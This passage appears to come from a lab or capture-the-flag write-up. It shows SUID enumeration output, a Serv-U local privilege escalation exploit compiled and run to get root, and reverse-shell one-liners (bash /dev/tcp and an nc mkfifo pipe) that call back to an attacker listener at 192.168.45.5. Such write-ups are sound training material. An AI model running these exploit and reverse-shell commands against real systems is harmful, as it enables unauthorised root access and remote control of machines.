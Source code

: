 ```bash
                               ╔═══════════════════╗
═══════════════════════════════╣ Interesting Files ╠═══════════════════════════════
                               ╚═══════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 22K Jun 28  2019 /usr/bin/arping
-rwsr-xr-x 1 root root 59K Mar 23  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 40K Mar 23  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 44K Mar 23  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 75K Mar 23  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 75K Mar 23  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-- 1 root dip 374K Feb 11  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 6.1M Nov 29  2017 /usr/local/Serv-U  --->  FTP_Server<15.1.7(CVE-2019-12181)/Serv-U
```

`searchploit` provides the necessary file:

```bash
$ searchsploit serv-u
<SNIP>
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)           | linux/local/47009.c
```

Uploading this to the machine and compiling it grants a root session. However, I can only execute commands within a single directory. This is easily remedied by just giving it a command for another reverse shell, which is fully interactive:

```bash
love@election:/tmp$ gcc 47009.c -o pe && ./pe
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# cd root
/bin/sh: 1: cd: can't cd to root
# ls
47009.c
netplan_foj4ro4o
netplan_m2de1815
pe
systemd-private-ae93210f14714b79ba39b42e2ef7d538-apache2.service-xkdn4b
systemd-private-ae93210f14714b79ba39b42e2ef7d538-bolt.service-xEwBqY
systemd-private-ae93210f14714b79ba39b42e2ef7d538-colord.service-TNYWBH
systemd-private-ae93210f14714b79ba39b42e2ef7d538-ModemManager.service-qwQDfV
systemd-private-ae93210f14714b79ba39b42e2ef7d538-rtkit-daemon.service-Tw1zML
systemd-private-ae93210f14714b79ba39b42e2ef7d538-systemd-resolved.service-8AWzsk
vmware-root_422-591958401
# which nc
/bin/nc
# sh -i >& /dev/tcp/192.168.45.5/443 0>&1
/bin/sh: 5: Syntax error: Bad fd number
# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.5 443 >/tmp/f
rm: cannot remove '/tmp/f': No such file or directory

$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.216.211] 56504
# whoami
root
```